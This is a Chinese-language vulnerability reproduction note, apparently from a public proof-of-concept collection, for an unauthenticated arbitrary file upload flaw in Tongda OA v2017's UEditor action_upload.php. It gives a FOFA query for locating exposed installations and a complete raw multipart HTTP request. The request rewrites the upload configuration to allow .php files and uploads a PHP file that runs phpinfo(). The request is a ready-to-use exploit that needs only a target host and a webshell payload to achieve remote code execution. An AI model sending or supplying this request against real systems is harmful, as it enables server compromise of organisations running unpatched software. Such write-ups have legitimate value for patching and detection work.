



## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

```
通达OA v2017
```

## FOFA

```
app="TDXK-通达OA" 
```

## 漏洞复现

访问获取版本信息



发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```



再访问上传的文件 

